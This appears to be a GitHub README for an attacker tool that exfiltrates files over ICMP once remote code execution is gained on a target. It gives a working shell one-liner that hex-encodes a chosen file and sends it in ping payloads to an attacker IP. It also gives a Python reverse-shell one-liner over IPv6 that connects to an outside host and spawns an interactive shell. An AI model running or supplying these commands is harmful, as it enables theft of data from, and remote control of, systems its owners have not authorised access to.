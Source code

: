 # 📡 ICMP Data Exfiltration via Ping

## 🚀 Overview
This project provides a method for exfiltrating file contents using **ICMP packets** when you have **Remote Code Execution (RCE)** but cannot establish a reverse shell or list directories. It allows you to send file data through **ping requests** and capture it using a sniffer.

## ⚙️ Prerequisites
✅ Root privileges to run the sniffer  
✅ Python3 and Scapy installed on the attacker’s machine  
✅ Target machine must allow outbound ICMP traffic 

## 🛠️ How to Use
#### 1️⃣ Start the Sniffer on the Attacker’s Machine

Run the following command as root:
```bash
sudo python3 icmp_sniffer.py
```

#### 2️⃣ Execute the Payload on the Target Machine

To exfiltrate the contents of /etc/hosts, run:

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attacker_ip>; done
```
- Replace `/etc/hosts` with the file you want to read.
- Replace `<attacker_ip>` with your actual IP address.

#### 3️⃣ Example Output
Below is an example screenshot of the sniffer capturing data sent over ICMP:


#### 🌐 Optional: Reverse Shell over IPv6
If the target supports IPv6, you can establish a reverse shell:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:4::1004",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 📌 Notes
⚠️ This method works if outbound ICMP is allowed.

⚠️ File exfiltration is slow due to small packet sizes.

⚠️ Modify `sniff(iface='tun0', prn=data_parser)` to use the correct interface.


